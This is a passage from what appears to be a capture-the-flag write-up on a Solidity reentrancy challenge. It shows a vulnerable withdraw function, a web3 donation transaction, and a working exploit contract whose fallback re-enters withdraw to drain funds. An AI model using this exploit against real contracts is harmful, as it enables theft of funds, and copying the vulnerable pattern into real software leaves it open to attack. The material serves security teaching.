 ```solidity
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

This is a well known bug in the space which had a huge impact on the ethereum blockchain (The DAO attack).  We need to drain out the funds from the contract. 
Here the contract makes a call to other contract which can then be used to call the same function, since the balance is updated after the call we would potentially steal all the funds from the contract. 


> #### Solution:
> - After deploying our exploit contract, we have to make a donation to the contract to add balance of our exploit contract.
> 
> ```js
> await sendTransaction({
>     from: player,
>     to: instance,
>     value: web3.utils.toWei("0.001"),
>     data: web3.eth.abi.encodeFunctionSignature("donate(address)") + web3.eth.abi.encodeParameter("address", exploit).substring(2)
> });
> ```
> 
> - There are we need to simply call the `callWithdraw()` function.
> 
> ```solidity
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> interface reenter {
>     function withdraw(uint _amount) external;
> }
> 
> contract reentranceExploit {
>     reenter re;
> 
>     constructor(address instance) payable {
>         re = reenter(instance);
>     }
> 
>     function callWithdraw() payable public {
>         re.withdraw(0.001 ether);
>     }
> 
>     fallback() external payable {
>         re.withdraw(0.001 ether);
>     }
> }
> 